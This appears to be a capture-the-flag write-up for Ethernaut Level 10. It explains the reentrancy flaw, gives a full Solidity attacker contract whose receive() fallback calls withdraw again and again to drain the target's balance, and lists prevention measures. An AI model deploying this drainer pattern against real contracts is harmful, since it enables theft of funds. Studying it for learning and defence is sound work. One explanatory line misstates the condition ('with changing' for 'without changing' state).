 
# Ethernaut Level 10 Reentrancy
- This level is Reentracy Problem, where we need to drain the balance of the contract.
- For solving this challenge, we need to understand reentrancy in solidity which is classic problem which first occured in DAO hack
- Reentrancy happens only when external call is made with changing the internal state, then attacker can call the function infinitely to opt out the balance before the state updation.

# Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Reentrance {
    function donate(address _to) external payable;

    function withdraw(uint256 _amount) external;

    function balanceOf(address _who) external view returns (uint256);
}

contract ReentranceAttacker {
    Reentrance private reentrance;
    address owner;

    constructor(address payable _reentrance) {
        reentrance = Reentrance(_reentrance);
        owner = msg.sender;
    }

    function attack() public payable {
        reentrance.donate{value: msg.value}(address(this));
        reentrance.withdraw(msg.value);
    }

    receive() external payable {
        reentrance.withdraw(msg.value);
    }

    function withdraw() public {
        (bool success, ) = owner.call{value: address(this).balance}("");
        require(success);
    }
}
 
```
# Preventive Measures
-  Use reentrance guard from openzeppelin whenever external calls are made.
- Use Checks-Effects-Interactions pattern,
is used for mitigating reentrancy attacks.
 



